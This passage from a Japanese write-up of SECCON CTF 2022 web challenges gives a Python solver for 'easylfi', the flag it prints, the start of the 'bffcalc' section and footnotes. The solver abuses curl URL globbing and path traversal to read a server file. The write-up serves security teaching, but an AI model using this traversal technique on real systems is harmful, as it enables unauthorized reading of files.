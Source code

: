 ### Solver

```python
import os
import httpx

BASE_URL = f"http://easylfi.seccon.games:3000"

res = httpx.get(
    BASE_URL + "/{.}./{.}./{app/public/hello.html,flag.txt}",
    params={
        "{name}": "{",
        "{": "}{",
        "{!</h1>\n</body>\n</html>\n--_curl_--file:///app/public/../../flag.txt\nSECCON}": "",
    },
)

print("SECCON" + res.text.split("<h1>Hello, }")[1])
```

### Flag

```
SECCON{i_lik3_fe4ture_of_copy_aS_cur1_in_br0wser}
```

## [web] bffcalc

- 41 teams solved / 149 points
- https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202211_SECCON_CTF_2022_Quals/web/bffcalc

Description:

> There is a simple calculator!
>
> - `http://bffcalc.seccon.games:3000`

### Overview

簡単な演算を計算してくれるWebサービスです。


[^top-1]: 作問ミスで、多くの人に非想定で解かれてしまい想定難易度より易化 :cry:
[^skipinx-1]: qsに限らず、DoS対策の文脈で、リクエストが巨大だった場合に途中以降を無視したりリクエスト自体を拒否したりする仕組みを取り入れているライブラリやフレームワークはしばしばあります。
[^easylfi-1]: `man curl`にもURL globbingの説明が書いてあります。
[^denobox-1]: Denoでは`__proto__`が公開されていないため、`constructor.prototype`経由で汚染する必要があります。
[^denobox-2]: もしこの制限下でprototype pollutionだけでRCEに繋げられる方法を見つけたら是非教えてください。
[^spanote-1]: 実際には、botの実装に使われているpuppeteerではデフォルトオプションでbfcacheが無効にされているので、フラグを取得するためにはこのステップは不要です（[参考](https://github.com/puppeteer/puppeteer/blob/v19.2.0/packages/puppeteer-core/src/node/ChromeLauncher.ts#L175)）。
[^noiseccon-1]: パーリンノイズについて詳しく知りたい方には[Unity Graphics Programming](https://github.com/IndieVisualLab/UnityGraphicsProgrammingSeries) vol.2 第5章がおすすめです。
[^noiseccon-2]: すみません、ここで解説が力尽きました。余裕があったら書き足します。